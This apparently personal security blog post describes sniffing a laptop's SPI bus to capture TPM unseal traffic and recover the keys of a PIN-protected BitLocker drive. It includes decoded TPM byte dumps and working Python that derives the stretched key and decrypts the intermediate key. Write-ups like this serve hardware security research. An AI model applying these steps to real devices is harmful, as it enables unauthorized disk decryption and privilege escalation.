









In [part 1](https://www.errno.fr/BypassingBitlocker.html) we focused on recovering the BitLocker encryption key on a laptop that had no PIN protection, for instance if the laptop gets briefly accessed by an attacker or simply stolen.

There will be no proper "bypassing" this time since the attacker needs to know the PIN. The attacker is now an insider that wants to get SYSTEM access. So we're going to unlock the laptop's drive and discuss a few peculiarities found along the way. There is nothing new presented here, except what to do when the tools fail.

PIN-protected BitLocker
-----------------------
How does a PIN- *or passphrase-*protected BitLocker differ from the commonly encountered TPM-only (aka auto-deciphering) BitLocker?

The FVEK, which is the actual disk encryption key is still on the disk next to the encrypted data and it is still encrypted with the VMK.

The VMK is now stored on the disk instead of on the TPM. Of course it cannot be stored in plaintext so it's encrypted using an Intermediate Key (IK). The IK key is stored encrypted in the TPM using the Stretched Key (SK). And finally the SK is derived from the user's PIN.



The PIN is used twice:

* to authenticate to the TPM and unseal the encrypted IK
* to derive a key that will decrypt the TPM's response and get the plaintext IK

This ensures that it's impossible to brute force the PIN both online (since the TPM has a locking mechanism) and offline (since the disk key is not encrypted with the possibly weak PIN but with an intermediate random key).


HP ProBook 4 G1's TPM
---------------------
After removing the back cover and not immediately identifying a discrete TPM chip, I was confused and left wondering: "Is there really no more discrete TPM on these high-end laptops? Have they finally moved away from FIPS 140-2 and used a more secure fTPM?".


Well, the answer is a resounding "No": pulling out the whole motherboard confirms that they still use that Nuvoton NPCT760HABYX chip:


This TPM communicates over SPI, probably the most common protocol for laptop TPMs. SPI is a shared bus, therefore there's a good chance that one or more memory chips are on the same bus but on the other, visible, side of the PCB. This is trivially verified using a multimeter in continuity mode.

On the HP ProBook 4, the best candidate is right next to the RAM, an MX25U chip with very convenient test through holes into which I placed pins:


Blue is the clock, green and yellow are MOSI and MISO. Red is CS but it doesn't actually matter. On older versions of DSView this caused the SPI parsers to fail, but they now ignore a missing CS.

We're now set up for a capture.


The weirdest of clocks
----------------------
The first problem I noticed was a strange clock that was driven high during dead times:


The oscilloscope confirmed the issue: the clock line was sitting idle at an intermediate voltage:


The solution is simple: use a 4.7kΩ pulldown resistor on the clock bus to force the line low when it's not driven.


A weirder capture still
-----------------------
The TIS protocol is used to send one byte per packet. So how come there are 2 bytes here?


I suspect that this is the acknowledgment being slow to send or understand which causes the data byte to be reemitted. This causes the TPM parser to completely fail:


Also, the responses encapsulations don't make sense (```FF FF FF``` should probably be something like ```80 00 00```), maybe that's another pulldown that needs to be installed? But in the end it doesn't matter since the last byte of the packet is always right and it's the only one used.

We will once again have to decode manually but that's no big deal because thanks to the PIN, we know exactly where to look for the TPM commands (recall from part 1 that the capture was several million bytes), since we're starting the capture right before sending the PIN, when there is no more activity on the bus. It's actually a simpler attack!

It was pointed out to me by @en4rab that selecting the TPM1.2 instead of 2.0 decoder correctly decodes the packet (though I can confirm that the DUT is indeed a TPM2.0). But since there are a few bitflips due to noise in my captured sample, the decoder still fails overall as it expects a perfect capture. So we'll still go the manual route!

Use the "save decoded data as" option of DSView to save separate MOSI and MISO lines. Use a regex to remove all TIS communications, for master that's ```00 D4 00 18 XX``` and for slave that's ```FF FF FF FE 01```. After that, separate lines at TPM message headers ```80 01``` (normal session) and ```80 02``` (authenticated session). Master to slave is denoted with a '>' and slave to master with a '<'.

You can follow along with [this awesome online TPM decoder](https://joholl.github.io/tpmstream-web/):
```
> TPM_CC.ReadPublic: Read the TPM's public key
80 01 00 00 00 0E 00 00 01 73 81 00 00 01
----- ----------- ----------- -----------
Header  size       command     data

< TPM_CC.ReadPublic response
80 01 00 00 01 6E 00 00 00 00 01 1A 00 01 00 0B 00 03 04 72 00 00 00 06 00 80 00 43 00
10 08 00 00 00 00 00 01 00 B8 60 22 66 D1 94 A0 B5 E6 1D 94 4A 04 F8 FE 3B 4A B4 72 8B
9B 6D B0 44 CB 61 36 0C 18 A1 10 18 59 11 9C 27 CF 50 39 5A E0 BA 71 CC B4 6B 91 92 ED
AF 5D F7 F3 46 14 5B 84 EC A5 98 42 71 8E 4C 80 93 A1 A7 CE CE 52 40 30 0B 4B F5 F8 3C
A5 55 B4 4F 7A DE 7F 8B 70 73 82 84 F4 54 9B E4 10 88 94 5F 5B 80 0E 92 B6 67 22 E8 31
DD 92 A3 50 E8 3D E1 C3 8A D3 E0 D8 6A 2B B8 E4 4E F8 54 F5 2F 0A A1 75 91 19 6A 72 1B
3C 27 57 4D 7F 6F 53 94 14 7C 1A 78 B1 1B 5D E8 D5 EA 37 8F 46 22 CE 90 BB AF DC 2F BA
12 A6 CD 09 0A F2 AE 9C D7 C2 04 9A 3B 5B D6 D1 BC 82 AE BA 97 C1 A1 A7 12 96 06 94 A5
43 CE AA F7 1F C1 61 67 9A FE 18 78 B6 4B A8 BE 78 25 BB E4 9A 16 38 B3 86 EA 3A 3C 0D
3A 71 B5 5D E3 6F CD B2 AB B4 AB 64 F6 EB E5 0E 8E 81 0B 31 E3 CA 4E 14 7B 96 CC F0 87
3C B1 C1 3B 00 22 00 0B 66 BE 7C 60 36 49 93 B0 C0 C7 94 9F 88 C9 DA 28 EF A7 24 6E 11
77 78 A3 09 4C BC 35 3B EC BE 08 00 22 00 0B 59 E3 08 69 86 00 75 2D 64 52 C8 D5 FC A5
A5 DA 29 CC 18 04 4F 86 54 F8 BF 4E B1 5D C1 BA 45 93

> TPM_CC.Load
80 02 00 00 01 3B 00 00 01 57 81 00 00 01 00 00 00 09 40 00 00 09 00 00 00 00 00 00 CE
00 20 A6 F4 F3 72 F4 13 46 28 BF 2C 08 28 71 FA 78 A1 F5 99 6C 76 BE 65 F5 1E DD 40 38
05 84 BF D9 47 00 10 B9 4F BF 45 FB B1 C5 D3 F8 88 9D B3 90 2E 54 0D 7C 1E 5C D9 16 84
77 7B 33 FE DF 8A C5 EA 71 3E 4C 3B 7C 7F F6 F8 42 2B CB 8C 28 30 24 1B 7C 8B CD EE 55
5C DF 23 67 DA DD 1F 42 02 02 19 21 24 EB 7C 43 30 AB FA 3D 23 A5 FB CD FD E9 EF D7 DF
AA CA 8E 7A C7 B9 D0 35 2B BB 88 19 A9 3F DE 1A 58 87 3D 63 51 FC 7E 95 3F 82 CE 54 00
51 0F 1E A6 6A 32 3D 58 6C 7C 44 EE FA C6 AA A0 5B 70 5A 9E 74 05 71 B5 E4 29 1E 0C 7C
6B 51 49 3E EB 13 FE 35 4F 06 8D 0C 04 54 BD 73 AE 03 1E 64 A1 5C 87 94 20 A9 B6 C0 5E
79 C2 37 00 4E 00 08 00 0B 00 00 00 12 00 20 CC FB 50 C7 94 DD 96 E4 DE 1E 91 08 6E 5D
A3 C8 37 D9 D3 16 A9 7D 01 BD 77 3B BD 00 F0 3C 06 0A 00 10 00 20 E0 8F AC 0F 37 AF 8E
5D 15 91 51 98 50 79 73 03 ED 3D 14 99 3A C1 64 48 00 C2 AE 3D 21 26 0E B7

< TPM_CC.Load response
80 02 00 00 00 3B 00 00 00 00 80 00 00 01 00 00 00 24 00 22 00 0B 05 32 3F D3 05 D4 32
27 D9 4B 4F B5 32 B2 B0 05 D9 5B 7D 84 ED FA F6 96 89 67 F5 17 FC 8A 90 8C 00 00 01 00
00

> TPM_CC.GetRandom: get a 32 bytes random number that will be used as a nonce for authentication
80 01 00 00 00 0C 00 00 01 7B 00 20

< TPM_CC.GetRandom response
80 01 00 00 00 2C 00 00 00 00 00 20 D7 AB 64 7F 1A C5 CA 94 63 77 5B 87 FD C8 E9 51 C8
8E 14 D5 B4 0E 7E 74 11 90 5A 4C 7B E8 31 20

> TPM_CC.StartAuthSession: notice the random number is used here
80 01 00 00 00 3B 00 00 01 76 40 00 00 07 40 00 00 07 00 20 D7 AB 64 7F 1A C5 CA 94 63
77 5B 87 FD C8 E9 51 C8 8E 14 D5 B4 0E 7E 74 11 90 5A 4C 7B E8 31 20 00 00 01 00 10 00
0B

< TPM_CC.StartAuthSession response
80 01 00 00 00 30 00 00 00 00 03 00 00 00 00 20 70 DE BB 38 00 52 08 1F B6 00 B6 6A B9
AE 47 65 74 A4 F9 17 38 81 59 87 7F F5 D6 26 CD 1C DC D2

> TPM_CC.GetRandom: get another random number used for the unseal nonce
80 01 00 00 00 0C 00 00 01 7B 00 20

< TPM_CC.GetRandom response
80 01 00 00 00 2C 00 00 00 00 00 20 43 5C 82 75 00 DD BA 5A 81 E4 2C 87 2A 18 B5 6E C5
13 B3 F6 01 23 98 5D D2 D6 8F CF CE 96 6F CB

> TPM_CC.PolicyAuthValue
80 01 00 00 00 0E 00 00 01 6B 03 00 00 00

< TPM_CC.PolicyAuthValue response: TPM_RC.SUCCESS
80 01 00 00 00 0A 00 00 00 00

> TPM_CC.PolicyPCR: Send a PCR digest for TPM verification, this is central to secure booting
80 01 00 00 00 3A 00 00 01 7F 03 00 00 00 00 20 76 96 29 9B AB 93 D4 1D DA F3 8A 89 EE
00 A6 D3 FB B7 2B EA 18 B2 52 AA 0E 7F B9 8E AF AA F3 50 00 00 00 01 00 0B 03 15 08 00

< TPM_CC.PolicyPCR response: TPM_RC.SUCCESS
80 01 00 00 00 0A 00 00 00 00

> TPM_CC.Unseal: unseal signed command to get the key from the TPM
80 02 00 00 00 5B 00 00 01 5E 80 00 00 01 00 00 00 49 03 00 00 00 00 20 43 5C 82 75 00
DD BA 5A 81 E4 2C 87 2A 18 B5 6E C5 13 B3 F6 01 23 98 5D D2 D6 8F CF CE 96 6F CB 00 00
20 C0 DC 83 0C D8 7E 91 C6 5F A2 89 27 B4 E5 90 08 C1 4A 96 F3 18 F0 83 E9 9E 4C 2C 24
54 10 76 8E

< TPM_CC.Unseal response: contains the encrypted intermediate key to decrypt the VMK
80 02 00 00 00 A5 00 00 00 00 00 00 00 52 00 50 50 00 00 00 05 00 00 00 00 0A 26 10 62
34 DC 01 34 00 00 00 12 47 12 A6 F9 76 ED 48 DB A4 9B A1 E5 87 44 A9 46 C0 70 32 F2 78
1A EB D0 65 FC C1 9D 6D 11 83 53 C6 E6 73 8D 94 FD B0 EB E8 B1 3D 91 A5 8A E3 84 B6 C0
60 4A 60 C5 A7 02 72 95 8D 00 20 6B 47 32 05 7E 71 F3 B5 7E BC 38 EE 66 9A A1 23 7D DF
92 13 39 7C 8E 6C 53 E7 78 75 F2 58 37 08 00 00 20 0F FB 15 78 CE AD 63 64 47 5C 14 61
43 68 A8 59 47 74 67 16 36 17 BC 3E C7 92 88 72 AC 17 98 65
```

Comparing captures and determining PIN usage
--------------------------------------------
I've compared a bunch of captures with good and bad PINs: the PIN is actually never sent to the TPM! I'm 99% sure that it's used in the calculation of the unseal HMAC because that's the only value that changes. This doesn't seem to be documented anywhere.


Recovering the VMK
------------------
Okay we've finally grabbed the ```TPM_CC.Unseal``` command's response. But the response buffer doesn't look like something we're used to. On the left side is a non-PIN-protected BitLocker, on the right side is the captured PIN-protected one.


The IK that protects the VMK is encrypted within this blob, using the SK derived from the PIN.

First, the SK needs to be derived from the PIN. The latter is UTF-16LE encoded, hashed twice, then 0x100000 rounds of SHA256 with the disk's salt are applied to it:
```python
import hashlib

# hash PIN twice
pin = '67851922'.encode('utf-16-le')
pinh = hashlib.sha256(pin).digest()
pinh = hashlib.sha256(pinh).digest()

# key stretching
h = bytes.fromhex('00' * 32)
salt = bytes.fromhex('c36496f98842c6fd9841de2ea743d5cf')    # from dislocker -vvvv output, "STRETCH KEY salt"
for i in range(0, 0x100000):
    h = hashlib.sha256(h + pinh + salt + i.to_bytes(8, byteorder='little')).digest()

print("SK:", h.hex())
```

The derived SK is now used to decrypt the buffer received from the TPM that was captured earlier to get IK:
```python
from Cryptodome.Cipher import AES

SK = bytes.fromhex("112a35c30dca7f30306d6a55e05d93719c7db79345520d6c7116c16e29616db2")
message = bytes.fromhex("5000000005000000"          # message header
                        "000A26106234DC0134000000"  # nonce
                        "124712A6F976ED48DBA49BA1E58744A9" # MAC, unused
                        "46C07032F2781AEBD065FCC19D6D118353C6E6738D94FDB0EBE8B13D91A58AE384B6C0604A60C5A70272958D") # encrypted IK
cipher = AES.new(SK, AES.MODE_CCM, nonce=message[8:8+12])
print("IK:", cipher.decrypt(message[36:36+44]).hex())
```

Decrypting the VMK requires finding its datum on the disk; the simplest way is to use dislocker. Here's an example of its output:
```
dislocker -vvvv /dev/loop7p3
...
Total datum size: 0x0050 (80) bytes
Datum entry type: 0
   `--> ENTRY TYPE UNKNOWN 1
Datum value type: 5
   `--> AES-CCM -- Total size header: 36 -- Nested datum: no
Status: 0x1
Nonce:
00 0a 26 10 62 34 dc 01 35 00 00 00
MAC:
5f 7b 3a c2 ec 32 d5 cf 55 e7 fa 25 9c b1 c0 d5
Payload:
0x00000000 fe 1e 50 87 52 fb ca 8a-6a e1 ce 8d 67 f4 0e f7
0x00000010 72 79 28 51 30 0c b5 94-05 27 30 97 c7 4e be c6
0x00000020 ed 98 25 79 e8 64 80 34-22 47 1d 76
Header safe: 0x50, 0, 0x5, 0x1
```

The same exact decryption process covered for IK applies to the VMK using the values read in the datum. With this you can now decrypt and mount the disk still using dislocker. Privilege escalation from there is left to the reader.

There are [a bunch](https://github.com/en4rab/SPITkey/blob/main/SPITkey.py) [of scripts](https://github.com/scrt/tpm_sniffing_pin/blob/main/tpm_sniffing_pin.py) that do all of this automatically. One of them directly reads the info from the volume, while the other one uses dislocker to extract the disk data as presented above. Anyway in the end it just works and is cleaner than my own code. And that's it!
